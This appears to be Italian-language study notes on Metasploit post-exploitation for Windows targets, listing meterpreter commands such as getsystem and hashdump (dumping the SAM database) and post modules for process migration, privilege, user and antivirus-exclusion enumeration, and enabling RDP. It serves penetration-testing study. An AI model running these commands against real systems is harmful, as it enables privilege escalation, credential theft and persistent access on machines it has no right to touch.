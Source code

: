 # Windows Post Exploitation Modules
Metasploit Framework offre dei moduli in grado di eseguire numerose operazioni di post exploitations per poter enumerare quante piú informazioni su un target dandoci la possibilità di eseguire dei privilege escalation dandoci il via libera dentro la macchina target.

Dopo aver ottenuto una sessione (o shell) meterpeter su un target Windows, possiamo eseguire alcuni comandi utili
```bash
getsystem         # tenta di elevare automaticamente i privilegi
screenshot        # esegue uno screenshot della macchina target
hashdump          # estre il contenuto del database SAM
show_mount        # visualizza la situazione dello storage
```

---

## Moduli post exploitation utili
Ecco alcuni moduli da poter usare dopo aver ottenuto una sessione meterpeter su un target
### windows migrate
modulo 
```bash
use post/windows/manage/migrate                 # per migrare una sessione su un altro processo
use post/windows/gather/win_privs               # per elencare i privilegi dell'utente attuale
post/windows/gather/enum_logged_on_users        # per elencare tutti gli utenti attualmente connessi al target
use post/windows/gather/checkvm                 # per vedere se il target é in realtá una macchina virtuale
use post/windows/gather/enum_applications       # per visualizzare le applicazioni  installate sul target
post/windows/gather/enum_av_excluded            # per enumerare la soluzione antivirus
use post/windows/gather/enum_computers          # per enumerare il dominio di cui fa parte il target
post/windows/gather/enum_patches                # per enumerare le patch sul target (potresti dover migrare in svchost.exe)
# l'equivalente di questo modulo é systeminfo su una shell sul target
use post/windows/gather/enum_shares             # per enumerare le cartelle condivise nel target
post/windows/manage/enable_rdp                  # per abilitare RDP sul target  
```
> Tutte queste informazioni andranno a finire dentro il database di metasploit e saranno visualizzabili con il comando `loot` e salvate dentro la directory `/root/.msf4/loot`
